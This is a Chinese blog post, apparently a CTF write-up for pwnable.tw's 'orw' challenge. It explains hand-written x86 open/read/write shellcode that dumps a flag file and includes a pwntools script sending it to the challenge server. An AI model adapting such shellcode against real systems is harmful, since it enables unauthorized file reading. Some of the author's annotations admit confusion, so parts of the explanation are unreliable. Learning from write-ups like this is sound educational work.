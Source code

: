 ```yaml
---
title: CTF|pwnable.tw orw writeup
date: 2018-03-14 12:32:31
draft: false
---
```

pwnable.tw orw writeup shellcode的编写
<!-- more -->
呀真的好久没有写博客了，最近在做一些题，都在看别人的题解，做过也忘了，接下来希望好好记录一下，帮助自己理解。

这道题是有关`shellcode`的编写，这部分我之前也没学习过，都是使用机器生成的。就...结合别人的writeup 说一下自己的理解吧。

高级语言形式
```c
char *fn = "/home/orw/flag";
sys_open(fn,0,0)
sys_read(3,fn,0x30)
sys_write(1,fn,0x30)
```
查看 [linux 系统调用](http://syscalls.kernelgrok.com/) 获得各个函数的调用号

```x86asm
首先是第一部分 sys_open
xor ecx,ecx ;清空ecx寄存器
mov eax,0x5;查看以上资料知道 sys_open 对应0x5
push ecx ;把一个空值压入栈中(这里不是很理解)
push 0x67616c66;galf(flag) 接下来就是把字符串作为参数压入栈中 数字就是字符的ASCII码十六进制值
push 0x2f77726f; /wro (orw/)
push 0x2f656d6f; /emo (ome/)
push 0x682f2f2f; h/// (///h)
mov ebx,esp;把内容移到ebx
xor edx,edx;清空 edx
int 0x80;中断 执行syscall

第二部分是sys_read
mov eax,0x3;sys_read
mov ecx,ebx;flag文件中的内容
mov ebx,0x3;文件描述符
mov dl,0x30;用于中断(??)
int 0x80;中断 执行syscall

第三部分是sys_write
mov eax,0x4;sys_write
mov bl,0x1;用于中断
int 0x80


```
最后的脚本：
```python
from pwn import *
io = remote('chall.pwnable.tw',10001)
shellcode = ''
shellcode+=asm('xor ecx,ecx;mov eax,0x5;push ecx;push 0x67616c66;push 0x2f77726f;push 0x2f656d6f;push 0x682f2f2f;mov ebx,esp;')
shellcode +=asm('xor edx,edx;int 0x80;mov eax,0x3;mov ecx,ebx;mov ebx,0x3;mov dl,0x30;int 0x80;')
shellcode+=asm('mov eax,0x4; mov bl,0x1;int 0x80;')
io.recvuntil(':')
io.send(shellcode)
io.interactive()
```
